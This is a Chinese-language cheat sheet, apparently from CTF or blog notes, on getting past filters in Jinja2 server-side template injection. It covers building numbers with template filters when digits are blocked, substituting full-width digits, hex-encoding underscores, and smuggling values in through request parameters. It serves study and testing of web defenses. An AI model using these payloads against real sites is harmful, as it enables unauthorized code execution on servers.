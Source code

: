 ## 过滤了数字

1.过滤器暴力获取

```
{% set c=(dict(e=a)|join|count)%} //1
{% set cc=(dict(ee=a)|join|count)%} //2
```

过滤了count，可以用length替换

```
{% set c=(dict(e=a)|join|length)%} //1
{% set cc=(dict(ee=a)|join|length)%} //2
```

然后想要获取更大的就没必要写那么多字符了，累啊

```
{% set cc=(dict(e=a)|join|count)%}
{% set ccc=(dict(ee=a)|join|count)%}
{% set coun=(cc~ccc)|int%}{%print(coun)%} //获取12
```

2.全角数字替代正常数字

```
def half2full(half):  
    full = ''  
    for ch in half:  
        if ord(ch) in range(33, 127):  
            ch = chr(ord(ch) + 0xfee0)  
        elif ord(ch) == 32:  
            ch = chr(0x3000)  
        else:  
            pass  
        full += ch  
    return full  
t=''
s="0123456789"
for i in s:
    t+='\''+half2full(i)+'\','
print(t)

```

## 过滤`_`

用编码绕过

```python
比如：__class__ => \x5f\x5fclass\x5f\x5f
```

当然也可以用上面说过的request绕过

```
request.args.x1   	get传参
request.values.x1 	post传参
request.cookies
request.form.x1   	post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		post传参	(Content-Type:a/b)
request.json		post传json  (Content-Type: application/json)
```
